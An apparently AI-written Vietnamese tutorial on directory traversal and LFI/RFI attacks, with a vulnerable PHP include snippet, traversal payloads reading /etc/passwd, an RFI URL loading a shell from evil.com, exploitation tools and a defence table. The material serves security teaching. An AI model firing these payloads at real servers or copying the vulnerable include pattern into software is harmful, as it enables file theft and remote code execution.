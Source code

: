 Dưới đây là nội dung chi tiết cho bài học:

---

# 06. Directory Traversal & File Inclusion

**Tấn công duyệt thư mục và chèn tập tin**

---

## 🎯 Mục tiêu

* Hiểu cách hoạt động của Directory Traversal và File Inclusion (LFI/RFI).
* Khai thác để đọc tập tin nhạy cảm, thực thi mã từ xa.
* Biết cách phòng chống loại tấn công này trong ứng dụng web.

---

## 📌 1. Directory Traversal là gì?

Directory Traversal (Duyệt thư mục) là tấn công nhằm truy cập các tập tin ngoài phạm vi cho phép bằng cách chèn ký tự đặc biệt vào đường dẫn, ví dụ:

```http
GET /?file=../../../../etc/passwd
```

→ Máy chủ đọc tập tin hệ thống thay vì tập tin được phép.

---

## 📌 2. File Inclusion là gì?

File Inclusion là lỗi khi ứng dụng **nhúng tập tin** theo đầu vào từ người dùng, ví dụ:

```php
<?php
  include($_GET['page']);  // page=home.php
?>
```

Nếu không kiểm soát kỹ, kẻ tấn công có thể:

* LFI (Local File Inclusion): nhúng tập tin cục bộ (ví dụ: `/etc/passwd`)
* RFI (Remote File Inclusion): nhúng tập tin từ bên ngoài (chỉ xảy ra nếu `allow_url_include=On`)

---

## 💥 3. Các ví dụ tấn công

### 🔹 LFI:

```
http://site.com/index.php?page=../../../../etc/passwd
```

→ Trích xuất thông tin hệ thống.

### 🔹 RFI (nếu server hỗ trợ):

```
http://site.com/index.php?page=http://evil.com/shell.txt
```

→ Thực thi mã từ xa.

---

## 🔧 Công cụ khai thác

* **Burp Suite** (Repeater để thử nhiều payload)
* **wfuzz / ffuf** – fuzz file path
* LFI Suite, Liffy – tool tự động hóa
* `curl` hoặc trình duyệt

---

## 🛡 Cách phòng chống

| Biện pháp                                                           | Giải thích                                                           |
| ------------------------------------------------------------------- | -------------------------------------------------------------------- |
| **Không bao giờ đưa đường dẫn từ input người dùng vào `include()`** | Chỉ sử dụng tên tập tin được định nghĩa sẵn                          |
| **Giới hạn whitelist tập tin**                                      | Ví dụ: chỉ cho phép `home.php`, `contact.php`,...                    |
| **Loại bỏ ký tự ../ và null byte**                                  | Tránh truy cập thư mục cha                                           |
| **Cấu hình server đúng**                                            | Tắt `allow_url_include`, không chạy file trong thư mục không tin cậy |
| **Không lưu log nhạy cảm trong web-accessible path**                | Tránh để người dùng có thể đọc `/var/log/...`                        |

---

## 🧠 Tổng kết

* LFI là một trong những lỗ hổng nguy hiểm vì có thể **đọc**, **thực thi mã** hoặc **chiếm quyền điều khiển** máy chủ.
* Luôn kiểm soát kỹ dữ liệu người dùng – đặc biệt là khi xử lý đường dẫn và tập tin.

---

Bạn có muốn tiếp theo là bài **07. SSRF (Server-Side Request Forgery)** không?
